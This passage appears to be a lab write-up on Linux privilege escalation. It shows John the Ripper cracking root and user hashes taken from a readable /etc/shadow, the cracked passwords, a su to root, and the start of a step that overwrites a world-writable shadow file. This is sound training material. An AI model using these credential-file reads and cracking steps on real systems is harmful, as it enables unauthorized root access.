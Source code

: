     Each line of the file represents a user. A user's password hash (if they have one) can be found between the first and second colons (:) of each line.

- Save the root user's hash to a file called `hash.txt`. Run the command using sudo depending on your version of Kali:

    ```bash
    $ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt      
    Using default input encoding: UTF-8
    Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
    Cost 1 (iteration count) is 5000 for all loaded hashes
    Will run 6 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    password123      (    root)
    password321      (    user)
    2g 0:00:00:23 DONE (2021-01-15 08:07) 0.08499g/s 2627p/s 2692c/s 2692C/s simone13..makenzi
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed
    ```

- Switch to the root user, using the cracked password:

    ```bash
    user@debian:~$ su root
    Password: 
    root@debian:/home/user#
    ```

#### What is the root user's password hash?
> It's `root:$6$Tb/euwmK$OXA.dwMeOAc opwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXv RDJXET..it8r.jbrlpfZeMdwD3B0fGxJ 0:17298:0:99999:7:::`

#### What hashing algorithm was used to produce the root user's password hash?
> It's usually `sha512crypt`.

#### What is the root user's password?
> password123

## Weak File Permissions - Writable /etc/shadow
The `/etc/shadow` file contains user password hashes and is usually readable only by the root user.

- Note that the /etc/shadow file on the VM is world-readable:

    ```bash
    user@debian:~$ ls -l /etc/shadow
    -rw-r--rw- 1 root shadow 837 Aug 25  2019 /etc/shadow
    ```

- Generate a new password hash with a password of your choice:

    ```bash
    user@debian:~$ mkpasswd -m sha-512 test
    $6$eoUp.j6kTQr$tG3BYYfW7dkxUDaYIMHWiFrVHc9KsMS2P8RUko7YKY31m6QDOQfWRLLOUnFuD1mHV2W5OIBCgqNyox9Mp7t9F0
    ```
